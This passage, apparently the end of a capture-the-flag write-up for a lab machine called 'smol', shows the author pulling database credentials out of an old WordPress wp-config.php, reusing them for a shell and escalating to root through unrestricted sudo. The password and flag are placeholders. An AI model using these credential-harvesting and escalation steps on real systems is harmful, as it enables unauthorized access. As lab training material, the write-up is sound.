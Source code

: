```terminal
gege@smol:~$ ls
wordpress.old.zip
gege@smol:~$ unzip wordpress.old.zip 
Archive:  wordpress.old.zip
   creating: wordpress.old/
[wordpress.old.zip] wordpress.old/wp-config.php password: 
```

The `wp-config.php` file contained some now credentials:

```terminal
gege@smol:~/wordpress.old$ cat wp-config.php | grep 'DB'
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'xavi' );
define( 'DB_PASSWORD', 'FAKEPWD' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );
```

I tired the credentials for the user *xavi*, this gave me a shell as *xavi*.

### root

Finally we need to get root, I checked *xavi's* `sudo` rights and found out that he can run anything as root:
```terminal
xavi@smol:/home/gege/wordpress.old$ sudo -l
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL
```

With that we were able to get the root flag:
```
xavi@smol:/home/gege/wordpress.old$ sudo cat /root/root.txt
FAKEFAKEFAKEFAKEFAKEFAKEFAKEFAKE
```

This challenge involved many steps and was all in all a nice box.